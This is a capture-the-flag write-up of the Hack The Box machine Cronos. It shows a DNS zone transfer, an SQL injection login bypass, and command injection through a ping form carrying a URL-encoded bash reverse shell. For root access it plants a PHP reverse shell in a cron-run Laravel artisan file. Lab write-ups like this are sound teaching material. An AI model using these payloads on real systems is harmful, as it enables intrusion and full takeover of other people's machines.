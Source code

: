 ```yaml
---
title: "Cronos"
date: 18-06-2025
categories: [Linux, Medium]
tags: [SQL Injection, SQLMap, Cronjob, DNS, RCE]
image: https://labs.hackthebox.com/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png
---
```


Cronos is a medium difficulty Linux machine. This box has only three TCP ports open; SSH, HTTP and DNS. DNS is configured in such a way that we are able to extract the domain name of this machine which resolves to `cronos.htb`. With the domain name we can perform a DNS zone transfer which leaks an admin subdomain. This admin page has a login form which is vulnerable to an SQL injection which allows us to bypass the login check. Once inside the admin page we have a command injection vulnerability which comes from a ping command. This page seems to be used to test the connection of different devices, and does not have any security checks. We are able to get a reverse shell from which we find a vulnerable cron job that we can abuse to get a reverse shell as the root user. 

![cron_info_card](assets/images/cronos/Cronos.png)

As always we can start off with an nmap scan to reveal which TCP ports are open on thsi box.

```
# Nmap 7.94SVN scan initiated Wed Jun 18 15:54:24 2025 as: nmap -Pn -n -oN nmap/allports --min-rate 5000 -p- 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up (0.021s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

# Nmap done at Wed Jun 18 15:54:35 2025 -- 1 IP address (1 host up) scanned in 11.15 seconds
```

There are only three TCP ports open, a quick look around the website reveals that it is just the default Apache welcome page. DNS being open suggests that there could be some missconfigurations. The main objective would be to perform a DNS zone transfer to leak the different subdomains the machine has available but to do so we need the hostname. To get the hostname we can use the nslookup tool.

```
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

We can see from the output that cronos.htb is the domain name. To perform the DNS zone transfer we can use the following command

```
dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.18.28-1~deb12u2-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 19 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Wed Jun 18 20:54:17 CEST 2025
;; XFR size: 7 records (messages 1, bytes 203)

```

We can see from the output that we gain access to the admin.cronos.htb subdomain which we can add to our hosts file to be able to access the webpage. 
![alt text](assets/images/cronos/image.png)

Trying common login credentials such as admin:admin does not work so I try to test for an SQL injection which works and we are able to bypass the login form. We can input the following data into the fields to do so:

```
UserName: a' OR 1=1 -- -
Password: a
```

Once inside the welcome page we see a very simple net tool

![alt text](assets/images/cronos/image2.png)

The ping command is a very common to a command injection vulnerability. I captured the request to work with it in burpsuite as that makes things easier:

```
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://admin.cronos.htb/welcome.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://admin.cronos.htb
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=dsdgr0k8vbv3tmem16na0fkqu7
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=ping+-c+1&host=8.8.8.8
```

We can try a simple and easy to see check by appending a sleep command to the end of the host parameter. The reason to append this at the end of the hosts parameter is because the ping command works as follows `ping host`. If we append our command at the end of the host we can execute any code after executing the ping command. We can try with a `command=ping+-c+1&host=8.8.8.8 ; sleep 2` to check if the reply takes 2 seconds longer, which it does. After confirming the command injection we can try with a bash reverse shell. I had some issues with character encoding but I managed to fix it by encoding the entire command into URL form.

I used the following reverse shell: `bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'` and sent the following payload:

```
command=ping+-c+1&host=8.8.8.8 ; %62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%34%2f%39%30%30%31%20%30%3e%26%31%27
```

Before sending it I set up a listener on the same port on my machine and sure enough we get a connection back as www-data. This user can directly read the user.txt flag inside the home directory of the user `noulis`. From here you could try running linpeas and other priv esc methods but the name of the machine is Cronos. We can safely assume that it is a cron tab exploit.
Checking the crontab file inside /etc/crontab file we see the following:

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
The last command is really interesting as it executes every minute as the root user. It is executing a file inside the /var/www/ directory which is the home directory of the www-data user we already own. The artisan file is also writable by us and contains a php script. I simply added the following php reverse shell at the top of the file, which will send me a reverse shell as the root user every minute.

```
cat ~/laravel/artisan
#!/usr/bin/env php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/9002 0>&1'");
/*
```

![alt text](assets/images/cronos/image3.png)